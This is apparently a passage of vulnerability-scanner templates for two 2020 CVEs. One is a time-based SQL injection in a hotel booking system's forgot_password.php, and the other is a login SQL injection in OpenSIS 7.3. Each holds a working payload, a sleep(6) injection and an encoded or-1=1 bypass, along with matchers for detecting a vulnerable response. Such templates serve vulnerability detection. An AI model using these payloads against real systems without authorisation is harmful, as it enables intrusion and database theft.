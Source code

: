 - severity - critical
- tags - cve,cve2020,hotel,sqli,unauth

## Requests

### Step - 1

```
POST /forgot_password.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

btn_forgot=1&email=1%27%20or%20sleep(6)%23

```

### Matchers

**Type - dsl**

- dsl
  1. duration>=6
  2. status_code == 200
  3. contains(body, "Hotel Booking System")
- condition - and

---

# OpenSIS 7.3 - SQL Injection

## Description

- OpenSIS Community Edition version 7.3 is vulnerable to SQL injection via the USERNAME parameter of index.php.
- severity - critical
- tags - cve,cve2020,sqli,opensis

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/account/index.php
- {{BaseURL}}/opensis/index.php
- {{BaseURL}}/index.php
  - USERNAME=%27%29or%601%60%3D%601%60%3B--+-&PASSWORD=A&language=en&log=

### Matchers

